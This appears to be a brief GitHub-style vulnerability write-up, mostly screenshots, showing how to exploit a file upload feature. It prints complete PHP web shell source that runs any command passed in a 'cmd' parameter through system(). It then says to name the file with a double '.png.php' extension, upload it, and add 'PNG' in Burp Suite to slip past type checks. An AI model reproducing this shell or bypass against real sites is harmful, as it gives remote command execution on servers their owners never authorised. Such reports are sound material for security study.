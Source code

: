 ![image](https://github.com/user-attachments/assets/754886a5-3137-4d14-8771-a5b589b05f92)
![image](https://github.com/user-attachments/assets/90ac8868-62a9-429e-bead-af039a362976)

use this code:

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
now you create a new file that has name <yournamefile>.png.php
and then upload

now in your burpsuite ![image](https://github.com/user-attachments/assets/d2938bb8-ced7-4d92-aad4-94593c8ebfde)

add "PNG"
![image](https://github.com/user-attachments/assets/02f215e4-e4c9-4a50-97f1-765a762b2b60)
![image](https://github.com/user-attachments/assets/90295bc5-c35c-4884-92c5-a1767473178b)

